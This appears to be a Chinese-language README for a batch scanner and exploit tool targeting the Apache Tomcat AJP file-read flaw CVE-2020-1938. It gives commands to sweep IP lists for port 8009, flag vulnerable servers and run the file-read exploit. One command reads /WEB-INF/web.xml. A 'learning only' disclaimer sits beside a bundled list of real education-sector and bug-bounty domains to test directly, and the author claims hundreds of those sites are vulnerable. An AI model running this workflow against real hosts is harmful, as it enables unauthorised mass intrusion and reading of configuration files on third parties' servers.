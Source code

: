 # CNVD-2020-10487 (CVE-2020-1938) 漏洞扫描工具

**注：仅供学习，严禁非法使用**

基于 Python 2.x，可以批量扫描 Apache Tomcat AJP 协议文件读取漏洞（Python 3.x 简单修改可用）

具体可查看：[CNVD 公开信息](https://www.cnvd.org.cn/flaw/show/CNVD-2020-10487)

漏洞影响版本：

- Apache Tomcat 7 < 7.0.100

- Apache Tomcat 8 < 8.5.51

- Apache Tomcat 9 < 9.0.31

此漏洞为 LFI (Local File Inclusion)，但有可能构造为 RCE (Remote Code Execution)

PoC 来源并修改于 [CNVD-2020-10487-Tomcat-Ajp-lfi-Scanner](https://github.com/Kit4y/CNVD-2020-10487-Tomcat-Ajp-lfi-Scanner) 与 [CNVD-2020-10487-Tomcat-Ajp-lfi](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi)

## 操作

### 将需要扫描的 IP 或域名放于 `ip.txt`

`ip.txt` 中不需要加协议，比如：

```
127.0.0.1
www.baidu.com
www.google.com
```

src 域名收集文件夹中为本人收集的教育src和补天src的一些域名，可直接测试

### 批量扫描 `8009` AJP 端口开放情况

```bash
python threading-find-port-8009.py
```

这将会生成 `8009.txt`，作用为扫描 `ip.txt` 中 IP 或域名，并找出开放的 `8009` 端口

### 筛选可利用漏洞的 Tomcat Server

```bash
python threading-CNVD-2020-10487-Tomcat-Ajp-lfi.py
```

从 `8009.txt` 中筛选出符合漏洞的 IP 或域名，放置于 `vul.txt` 中，最后 `vul.txt` 中存在的域名即为含有漏洞的 IP 或域名

测试可知，补天公益src有上百站点，教育src大概三百站点包含此漏洞

![漏洞扫描](1.png)

### 漏洞利用测试

```bash
python CNVD-2020-10487-Tomcat-Ajp-lfi.py 127.0.0.1
```

两个脚本的最后一行均为线程数，默认是 `20`，可自行修改，分别位于：

- `threading-find-port-8009.py` 的 67 行

- `threading-CNVD-2020-10487-Tomcat-Ajp-lfi.py` 的 341 行

```python
thread_num = 20
```

### 其他

漏洞测试利用更推荐使用 [AJPy](https://github.com/hypn0s/AJPy) 工具包，如需利用 `CVE-2020-1938`：

```bash
python tomcat.py read_file --webapp=ROOT /WEB-INF/web.xml 127.0.0.1
```
